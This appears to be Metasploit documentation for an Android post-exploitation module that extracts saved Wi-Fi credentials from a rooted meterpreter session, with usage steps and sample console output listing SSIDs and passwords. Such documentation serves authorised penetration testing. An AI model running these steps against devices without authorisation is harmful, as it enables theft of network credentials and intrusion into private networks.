 ## Vulnerable Application

  This post-exploitation module will extract all saved Wireless access point credentials from the target android device.

## Verification Steps

  1. Start `msfconsole`
  2. Get a *root* meterpreter session (use exploit/android/local/...)
  3. Do: `use post/android/gather/wireless_ap`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - Wireless AP credentials (SSID, network type and password)

## Example Scenario


```
msf5 exploit(multi/handler) > use post/android/gather/wireless_ap
msf5 post(android/gather/wireless_ap) > set session 1
session => 1
msf5 post(android/gather/wireless_ap) > run

Wireless APs
============

 SSID                  net_type  password
 ----                  --------  --------
 ADYYYXRoYXJ2YWpvc2hp  WPA-PSK   lkjhgfdsa
 FCP_WiFi              NONE
 HomeCable             WPA-PSK   p@$$w0rd
 Troika                WPA-PSK   ika@12345
 

[+] Secrets stored in: ~/.msf4/loot/...wireless.ap.cred_...txt
[*] Post module execution completed
msf5 post(android/gather/wireless_ap) >
```
